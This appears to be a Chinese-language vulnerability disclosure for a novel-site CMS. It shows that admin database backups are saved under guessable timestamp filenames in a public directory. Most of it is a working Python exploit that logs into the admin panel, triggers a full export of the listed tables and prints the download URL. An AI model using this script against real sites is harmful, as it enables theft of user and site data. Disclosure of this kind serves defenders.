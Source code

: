 #### 漏洞详情： ####
后台可以直接备份数据库，备份后为.sql.gz文件(可以在设置里更改是否压缩)，文件名为time函数生成的时间戳，可直接爆破进行下载，这里先附上exp

    
    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests
    import time
    
    def getDatabase(url,username, password):
    session = requests.session()
    
    u = 'http://%s/admin/index/login.html' % (url)
    head = {
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
    }
    data = {
    'username': username,
    'password': password,
    'code': 1
    }
    session.post(u, data, headers = head)
    
    u = 'http://%s/admin/database/export.html' % (url)
    data = {
    'layTableCheckbox':'on',
    'tables[0]':'ky_ad',
    'tables[1]':'ky_addons',
    'tables[2]':'ky_bookshelf',
    'tables[3]':'ky_category',
    'tables[4]':'ky_collect',
    'tables[5]':'ky_comment',
    'tables[6]':'ky_config',
    'tables[7]':'ky_crontab',
    'tables[8]':'ky_link',
    'tables[9]':'ky_member',
    'tables[10]':'ky_menu',
    'tables[11]':'ky_news',
    'tables[12]':'ky_novel',
    'tables[13]':'ky_novel_chapter',
    'tables[14]':'ky_route',
    'tables[15]':'ky_slider',
    'tables[16]':'ky_template',
    'tables[17]':'ky_user',
    'tables[18]':'ky_user_menu'
    }
    t = time.strftime("%Y%m%d-%H%M%S", time.localtime())
    
    session.post(u, data = data)
    
    for i in range(0, 19):
    u2 = 'http://%s/admin/database/export.html?id=%s&start=0' % (url, str(i))
    session.get(u2)
    
    t = 'http://' + url + '/public/database/' + t + '-1.sql.gz'
    return t
    
    if __name__ == '__main__':
    u = '127.0.0.1'
    username = 'admin'
    password = 'admin'
    t = getDatabase(u, username, password)
    print(t)


运行代码，得到路径(默认生成路径为/public/database/，可在设置中修改)
![](后台数据泄露/2Z9dpibMEs1PUcB.png)

直接访问下载
![](后台数据泄露/kxcNeHhSqviyfpR.png)

可以看到所有数据库信息全在了
![](后台数据泄露/p2VETuFUze3lDZS.png)

https://xz.aliyun.com/t/7486